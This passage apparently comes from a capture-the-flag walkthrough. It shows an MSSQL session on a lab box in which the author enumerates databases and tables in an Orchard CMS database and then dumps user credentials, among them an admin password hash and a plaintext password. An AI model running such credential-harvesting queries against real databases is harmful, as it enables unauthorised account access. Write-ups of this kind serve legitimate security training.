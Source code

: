 Finally! Let's explore the database to see if we have some interesting things on it.

## MSSQL Access

We started by listing the databases.

```bash
SQL> SELECT name FROM master.dbo.sysdatabases;
name                                                                                                                               
--------------------------------------------------
master                                                                                                                             
tempdb                                                                                                                             
model                                                                                                                              
msdb                                                                                                                               
orcharddb 
```

Let's take a look at the **orcharddb** database.

```bash
SQL> USE orcharddb;
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: orcharddb
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'orcharddb'.

SQL> SELECT table_name FROM information_schema.tables;
table_name                                                                                                                         

--------------------------------------------------------

...[snip]...                                                                       

blog_Orchard_Users_UserPartRecord 

...[snip]...

```

We found a bunch of tables, but **blog_Orchard_Users_UserPartRecord** seems to be promising.

```bash
SQL> SELECT Username, Password FROM blog_Orchard_Users_UserPartRecord;
Username          Password   
--------          ----------------------------------------------------  

admin             AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2A==                                      
James             J@m3s_P@ssW0rd!
```
